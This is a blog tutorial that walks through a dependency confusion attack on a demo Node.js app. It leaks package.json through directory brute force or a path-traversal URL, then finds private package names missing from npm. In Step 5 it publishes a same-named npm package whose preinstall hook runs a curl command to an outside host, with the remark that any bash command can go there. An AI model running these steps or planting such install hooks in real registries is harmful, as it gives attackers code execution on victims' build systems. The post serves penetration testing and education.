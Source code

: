 ```yaml
---
title: "Exploiting Dependency Confusion"
date: 2021-06-01 13:37:31
description: Exploiting Dependency Confusion
---
```


In this blog, We will step by step exploit a demo application vulnerable to Dependency Confusion attack. 

This blog is not about what dependency confusion is, that you can read [here](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

## Introduction to demo app

Our demo application is a simple app with only Backend and Frontend. The application allows the User from frontend to check if a string has an XSS payload in it or not.

### Backend

The backend is running on http://demo-app.com:1337. 

There is an API endpoint `http://demo-app.com:1337/?text=PAYLOAD` that checks for XSS payload in it.

![](/website/assets/images/dep-conf-1.png)

### Frontend

Frontend is running on http://demo-app.com:3000

The Frontend takes a query parameter "text". It then hits the backend API with that query parameter text, looks for XSS in that text, and displays the result on screen (see below)

![](/website/assets/images/dep-conf-2.png)

![](/website/assets/images/dep-conf-3.png)


## Overview Dependency Confusion

To Find if an application is vulnerable to Dependency confusion, our first step is to find all the possible packages the web application is using.  

### What are packages?

We can think of packages as `Developers sharing code for other developers to reuse it`. 

For example, If a developer develops a mongo database wrapper to enable MongoDB connection, he can make a package and publish it online(at central repository) and other people can reuse them. 

Now, In case you do not want to share your package with everyone in the world but keep it secret to people in your organization you can host your packages on a private organization repo and only people in your organization can use it. For example. Let's say you have a custom authentication process that you think everyone can use in your company. Making it public will not be a good idea. So there is also a concept of private repositories where developers can share private packages. 

Our goal as an attacker is to find as many packages as possible used in Frontend/Backend and find the ones that are private to the organization. Once we know all private packages, we can host them on npm and the web application will download our package instead of the private package(that's how this vulnerability works).

## Exploiting demo app

### Step 1

Find Packages installed in backend application. To do this we will need to leak the package.json file somehow or if we can leak the application’s source code. Some ways to do it:

* Directory brute force for sensitive information leak
    * http://site.com/.git can leak full source
    * http://site.com/package.json maybe we can just read package.json

* If the application is vulnerable to Local file disclosure, we can use it to leak package.json 
    * http://site.com/?file=../../../package.json

* OSINT
    * If its an open source app, you can try finding the source code on GitHub and see packages used

etc.. The goal here is to use your hacker instinct to find the leak and get the information about packages installed.

Following the above steps, running dirsearch on our demo application backend(http://demo-app:1337/) show’s the following result:

![](/website/assets/images/dep-conf-4.png)

So we can see the package.json file is exposed. It lists the following packages installed.
![](/website/assets/images/dep-conf-5.png)

### Step 2

Find packages installed in the Frontend application. We can do this in the following ways:
* Reviewing frontend source code and look for required packages. Look for the term `require()` or `import` in the source code

    ![](/website/assets/images/dep-conf-6.png)

* Frontend Application might be returning `node_modules` folders back to the user. Some applications do that in debug mode

    ![](/website/assets/images/dep-conf-9.png)


etc.. Again, the goal is to use your hacker instincts and find the packages.

### Step 3

List all the packages 

* Frontend
    * react
    * ez-get-url-params [looks suspecious]
    * react-dom
    * react-refresh
    * url
    ...

* Backend
    * body-parser
    * express
    * xss-finder-0xsapra [looks suspecious]


### Step 4

Now that we have a list of all the packages used in the application, the next step is to find which one of them is `not` on `npm`. We can simply do this by visiting https://www.npmjs.com/ and search for the package name. 

So 2 packages which I cant find are:

* xss-finder-0xsapra
![](/website/assets/images/dep-conf-7.png)

* ez-get-url-params
![](/website/assets/images/dep-conf-8.png)

Meaning these are private packages.

### Step 5

Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain

* git clone https://github.com/0xsapra/dependency-confusion-expoit
* cd dependency-confusion-expoit
* Edit package.json following fields
    * Change module name `"name": "ez-get-url-params",` to `"name": "xss-finder-0xsapra",`. 
    * Change Version `"version": "1.0.0",` to `"version": "1.0.0",`
        * As you can see, leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use the same version
    * Change `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"` 
        * preinstall is the command that gets executed. use any bash command you want here
    ![](/website/assets/images/dep-conf-10.png)

* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from [https://zellwk.com/blog/publish-to-npm/](https://zellwk.com/blog/publish-to-npm/) . Here's the same steps:
    * Login/Signup into npm from [https://www.npmjs.com/signup](https://www.npmjs.com/signup)
    * Open terminal/bash and login into npm from terminal using `npm login` command
    ![](/website/assets/images/dep-conf-11.png)
    * Run `npm publish .` in terminal and it will publish `xss-finder-0xsapra` to npm
    ![](/website/assets/images/dep-conf-12.png)
* You can now find the package uploaded on https://npmjs.com (https://www.npmjs.com/package/xss-finder-0xsapra)

### Step 6

Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).

![](/website/assets/images/dep-conf-13.png)

## Conslusion

Following the above 5 steps, you should be able to properly test an application for dependency confusion vulnerability. 

I hope this clears the attack. 